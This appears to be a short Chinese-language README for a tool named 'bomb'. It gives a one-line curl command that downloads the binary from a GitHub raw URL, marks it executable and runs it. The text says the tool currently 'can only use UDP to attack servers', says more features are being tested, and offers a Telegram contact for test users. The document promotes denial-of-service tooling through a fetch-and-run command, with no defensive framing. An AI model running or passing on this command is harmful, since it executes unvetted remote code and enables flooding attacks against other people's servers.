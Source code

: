 测试脚本
```
curl -sSL https://raw.githubusercontent.com/seagullz4/loser/main/bomb -o bomb && chmod +x bomb && ./bomb
```

暂时只能使用UDP攻击服务器,后续内容正在添加+测试中


测试用户请联系我: [@seagullz44](https://t.me/seagullz44)